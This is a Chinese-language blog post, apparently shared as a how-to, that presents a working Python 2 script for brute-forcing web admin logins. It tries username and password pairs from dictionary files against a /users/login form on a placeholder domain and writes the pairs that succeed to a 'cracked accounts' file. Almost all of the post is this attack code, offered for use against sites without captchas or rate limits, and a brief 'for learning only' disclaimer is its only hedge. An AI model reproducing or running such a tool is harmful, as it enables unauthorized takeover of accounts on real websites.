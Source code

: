# python 写的http后台弱口令爆破工具

今天来弄一个后台破解的Python小程序，哈哈，直接上代码吧，都有注释~~

    
    
    # -*- coding: utf-8 -*-
    # 利用python 写的多线程爆破后台用户名+密码(自备字典),比较实用,即使是在信息安全这么重视的今天,还是有人不加验证码或者异常访问限制之类的登陆验证方式,这样就很# 容易被弱口令爆破工具拿下,(本代码仅限学习实用,禁止进行web攻击,不承担法律责任)
    import urllib2
    import urllib
    import httplib
    import threading
     
    headers = {"Content-Type":"application/x-www-form-urlencoded",     
               "Connection":"Keep-Alive",
               "Referer":"http://www.xxxxx.com/"};# referer:是代理的访问来源地址
    # lock = threading.Lock()
    def tryUser(user,password):
        #print user,password
        global headers
        global outFile 
        conn = httplib.HTTPConnection("www.xxxxx.com") # 远程域名
        if len(user) < 3:     # 限制用户名长度，排除字典中的无用数据
            return  # 主动退出线程
        else:
            #lock.acquire()   # 多线程操作文件，提前加锁，用后释放
            #line = inFile.readline()
             
            #userData = line.strip().split(' # ') # strip() 默认去除空白字符包括' ','\t','\n'等
            #lock.release()
     
            user = user.strip()
            passwd = password.strip()
            params = urllib.urlencode({'username': user, 'password': passwd})
            conn.request(method="POST", url="/users/login", body=params, headers=headers) # 后台路径
            responseText = conn.getresponse().read().decode('utf8') # 网页编码
            #print responseText  # 第一次可以打印看看是否解析
            if not responseText.find(u'用户名或者密码不正确,请重新输入!') > 0 :
                print '----- find user:', user, 'with password:', passwd, '-----'
                outFile.write(user + '    ' +  passwd + '\n')
                 
        return
     
    outFile = open('accounts-cracked.txt', 'w')
     
    if __name__ == '__main__':
        tsk=[] # 创建线程池
        with open(r'user.dic', 'r') as fUser:  # 使用with as 来打开文件,不需自己关闭文件,因为他会自己在合适的时候自已关闭(类似C# 中的using(...){}接口)
            with open(r'pass.dic', 'r') as fPass:
                for user in fUser.readlines():
                    for password in fPass.readlines():
                        t= threading.Thread(target = tryUser,args=(user,password))
                        t.daemon = False # 设置不进行进程守护
                        tsk.append(t) # t.start()
                    fPass.seek(0)
                    # 记住这里要将文件重新移到文件首,不然就会出现只执行外层循环的第一条,因为内层在
                    # 迭代之后(readlines()是迭代器的形式,迭代一次后文件指针就指到文件尾了,迭代器
                    # 也是end了)第二次就没有password 在 fPass中,也就是说 for  password in fPass.readlines():
                    # 为空,所以这里的内层循环就不会被执行了,因此也就是迭代器清零的问题(C ++ itertor 常有)
                      
                         
    # join()无参数就是完全阻塞主线程,等待线程执行完 有参数就是说，
    # 在主线程等待一秒后就不阻塞线程了,继续执行主线程,这里的意思是一秒钟开一个线程
    # 不能再thread start之前调用join(), 因为join() 是线程运行时调度
        for t in tsk:
            t.start()
            t.join(1) 
     
     
     
        print "All thread OK,maybe not "
        outFile.close()

  

